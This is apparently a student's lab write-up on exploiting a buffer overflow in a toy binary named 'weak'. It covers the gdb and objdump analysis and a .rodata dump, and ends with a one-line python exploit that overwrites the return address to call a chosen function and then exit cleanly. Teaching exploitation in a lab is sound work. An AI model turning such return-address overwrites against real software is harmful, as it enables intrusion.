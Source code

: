1. The program reads from stdin and randomly capitalize the input string by subtracting 0x20 for each character. By running `echo "aaaaaaaa" | ./weak | od -A n -t x1`, we can see that some random 'a's (0x61) is output as 'A's (0x41). The program only outputs a maximum of 12 characters. If input is longer than 19 characters, the program gets a segmentation fault.
2. Since we know the buffer is set before calling scanf, we interrupt scanf in gdb to get memory address `0x805155d`. By looking at the objdump, we know entry point is `0x8051540`. Then we search for all instructions that jumps to this address and we can see some memory allocation before jumping. We input a long string to make the program segfault, and look at the location of the buffer overflow, which is near `0xffffd550`. Looking at the stack with and without buffer flowing, we can see that the buffer size is 12 bytes and we have to account for the saved registers, therefore, overflowing starts 20 bytes after start of buffer.
3. First, we look at the .rodata section of the program by running `objdump -s -j .rodata`. We can see that all of the "Owned by group XX" strings are stored in the front of .rodata.

        Contents of section .rodata:
        809f8a0 03000000 01000200 4f776e65 64206279  ........Owned by
        809f8b0 2067726f 75702030 310a004f 776e6564   group 01..Owned
        809f8c0 20627920 67726f75 70203032 0a004f77   by group 02..Ow
        809f8d0 6e656420 62792067 726f7570 2030330a  ned by group 03.
        809f8e0 004f776e 65642062 79206772 6f757020  .Owned by group 
        809f8f0 30340a00 4f776e65 64206279 2067726f  04..Owned by gro
        809f900 75702030 350a004f 776e6564 20627920  up 05..Owned by 
        809f910 67726f75 70203036 0a004f77 6e656420  group 06..Owned 
        809f920 62792067 726f7570 2030370a 004f776e  by group 07..Own
        809f930 65642062 79206772 6f757020 30380a00  ed by group 08..
        809f940 4f776e65 64206279 2067726f 75702030  Owned by group 0
        809f950 390a004f 776e6564 20627920 67726f75  9..Owned by grou
        809f960 70203130 0a004f77 6e656420 62792067  p 10..Owned by g
        809f970 726f7570 2031310a 004f776e 65642062  roup 11..Owned b
        809f980 79206772 6f757020 31320a00 4f776e65  y group 12..Owne
        809f990 64206279 2067726f 75702031 330a0025  d by group 13..%

    Then, we look at starting address of "Owned by group 06" which is `0x809f907`. In objdump, we search for the instruction that push this string into stack, which is `80482a5:	68 07 f9 09 08       	push   $0x809f907`. Now we know the starting address of our function is `0x0804829c`. Then, we buffer overflow the program to make it jump to `0x0804829c`. To make program terminate normally after calling that function, we have to buffer overflow is with a correct return address. Since exit is a syscall, we use gdb to catch the syscall and get the memory address to jump to. In gdb, we run `catch syscall 1 252` to call 'exit' and 'exit_group' syscall. Then, we just run the program without segfault so that it exits normally. From gdb, we get `Catchpoint 2 (call to syscall exit_group), 0x08051447 in ?? ()`. `0x08051447` is the address we want to jump to exit normally. 

4.  Our exploit source code:

        #!/bin/bash
        python -c 'print " "*20 + "\x9c\x82\x04\x08" + "\x47\x14\x05\x08"' | ./weak

5.  Our exploit is just piping `20 spaces + address of our function + address of exit syscall` into the program. We find the padding space by overflowing the buffer with a long string, then running `info registers` to look at the registers. $esp is pointing at `0xffffd550` on the stack and loads the content into $eip as the address of next instruction. This position on the stack is 20 bytes after the buffer which is why we overflow it with the address of our function. After running our desired function, the program seg faults because of invalid return address. We run `info registers` in gdb and see that $esp is pointing at `0xffffd554` on the stack and loads the content into $eip as return address. This address is right after our initial 24 bytes overflow, therefore we overflow it with the memory address of our exit to make the program terminate normally.